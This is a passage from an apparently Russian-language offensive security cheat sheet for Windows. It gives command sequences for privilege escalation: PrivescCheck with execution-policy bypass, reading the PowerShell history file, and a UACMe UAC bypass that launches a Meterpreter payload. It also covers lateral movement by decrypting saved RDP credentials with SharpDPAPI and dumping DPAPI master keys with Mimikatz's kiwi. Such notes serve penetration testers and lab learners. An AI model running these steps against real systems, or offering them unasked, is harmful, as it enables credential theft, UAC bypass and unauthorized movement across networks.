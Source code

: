 
## 🔍 PrivescCheck
```powershell
powershell -ep bypass
. .\PrivescCheck.ps1
Invoke-PrivescCheck
```

---

## 🕵️ PowerShell History
```text
C:\Users\User\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_History.txt
```

---

## 🚦 UACMe
```cmd
Akagi64.exe {KEY/23} {FULL_PATH_MPRETER_PAYLOAD}
```
🗂 Файл `Akagi64.exe` должен быть загружен в `/Desktop/Tools`

---
## 🔗 Источники:
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
- https://ohpe.it/juicy-potato/CLSID/
- https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1
___
___
# 🔀 Windows Lateral Movement & Pivoting

## 🖥️ Lateral Movement via RDP
1. Проверь файл:
```plaintext
C:\Users\Administrator\Documents\Production-Server.edg
```
2. Загрузить `SharpDPAPI.exe` на целевую машину.
3. Выполнить:
```powershell
SharpDPAPI.exe edg /unprotected
```
4. Если нужен мастер-ключ:
   - Загрузить `kiwi`
   - Выполнить:
```powershell
kiwi_cmd sekurlsa::dpapi
```
   - Скопировать `GUID:SHA1`
   - Выполнить:
```powershell
SharpDPAPI.exe rdg GUID:SHA1
```

---